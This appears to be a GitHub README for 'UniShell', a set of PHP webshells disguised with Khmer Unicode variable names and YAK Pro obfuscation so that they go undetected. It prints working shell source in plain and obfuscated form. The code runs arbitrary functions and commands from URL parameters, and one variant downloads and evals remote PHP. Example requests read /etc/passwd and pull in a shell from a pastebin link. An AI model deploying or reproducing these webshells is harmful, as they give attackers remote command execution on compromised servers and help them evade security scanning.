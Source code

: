 # UniShell
Unishell is a family of php webshells that based on nano shell (https://github.com/s0md3v/nano) which are using khmer unicode characters (ក, ខ, គ) and combinded with YAK pro Php Obfuscator to be more undetectable and silently.

### None-Obfuscate
1. Soriya
```php
<?php $ា=$_GET;if($ា[ត]!=null)$ា[ល]==ធិ៤០៤&$ា[ម]($ា[ប]); ?>`
```
**Note:** For the options `ល` is the password `ធិ៤០៤` which mean you can change the string with your password.

### Option
`ត` for any String; `ល` for Password; `ម` for Function; `ប` for Command;

### Usage
`http/s://testing.com/unishell.php?ត=any&ល=password&ម=function&ប=command`

**For example**, we want to show the /etc/passwd in the system so we use options us below:

`http/s://testing.com/unishell.php?ត=true&ល=ធិ៤០៤&ម=passthru&ប=cat /etc/passwd`

### Screenshot-1
![handler](https://imgur.com/YS1JMHE)

2. Kolab
```php
`<?$ា=$_GET;if($ា[ត]!=null)$ា[ល]==ធិ៤០៤&$ា[ម]($ា[ប]); eval('?>'.file_get_contents($ា[ដ]));?>`
```
### Option
`ត` for any String; `ល` for Password; `ម` for Function; `ប` for Command; `ដ` for Url;

### Usage
`http/s://testing.com/unishell.php?ត=any&ល=password&ម=function&ប=command&ដ=url`

***For example***, we want to use the PHP Web Shell from another source in the target system, so it will be:

`http/s://testing.com/unishell.php?ត=true&ល=ធិ៤០៤&ម=passthru&ប=uname -a&ដ=https://pastebin.com/raw/JfLvh0MG`

### Screenshot-2

![handler](https://imgur.com/WCfChGe)

### Screenshot-3

![handler](https://imgur.com/HSb9rbd)

### Obfuscated
In this code below i used yak to obfuscated it.

1. Soriya
```php
`<?php goto JFDwF; NnbkH: $gOzsO[ល] == ធិ៤០៤ & $gOzsO[ម]($gOzsO[ប]); goto ymB7H; B3hLL: if (!($gOzsO[ត] != null)) { goto y8I95; } goto NnbkH; JFDwF: $gOzsO = $_GET; goto B3hLL; ymB7H: y8I95: ?>`
```
2. Kolab
```php
`<?php goto N6Ag4; KMKUH: $I9NO2[ល] == ធិ៤០៤ & $I9NO2[ម]($I9NO2[ប]); goto cuHHG; N6Ag4: $I9NO2 = $_GET; goto clZU6; clZU6: if (!($I9NO2[ត] != null)) { goto P0yeE; } goto KMKUH; cuHHG: P0yeE: goto hYsr_; hYsr_: eval("\x3f\x3e" . file_get_contents($I9NO2[ដ])); ?>`
```
### License
If you want to use or modify it, just give me a credit or some donation. xD
